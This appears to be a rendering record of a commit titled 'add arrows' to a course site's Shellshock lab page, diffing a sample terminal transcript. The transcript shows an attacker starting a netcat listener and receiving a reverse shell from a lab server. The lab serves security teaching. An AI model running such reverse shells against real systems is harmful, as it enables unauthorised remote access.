

Before and after one commit to ycpcs/cs335-spring2025, a Jekyll site: the page built from labs/shellshock.md, in a window 1280 px wide and 900 px high, scrolled down 3692 px. Shown: the part 155-451 px from the top of the window. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
add arrows

````diff
--- a/labs/shellshock.md
+++ b/labs/shellshock.md
@@ -267,10 +267,10 @@ following experiment, *netcat* (*nc* for short) is used to listen for a connecti
 only on the first line).
 
 ```
-Attacker(10.0.2.6):$ nc -nv -l 9090 Ÿ **Waiting for reverse shell**
+Attacker(10.0.2.6):$ nc -nv -l 9090 <- **Waiting for reverse shell**
 Listening on 0.0.0.0 9090
 Connection received on 10.0.2.5 39452
-Server(10.0.2.5):$ **Reverse shell from 10.0.2.5.**
+Server(10.0.2.5):$ <- **Reverse shell from 10.0.2.5.**
 Server(10.0.2.5):$ ifconfig
 ifconfig
 enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
````
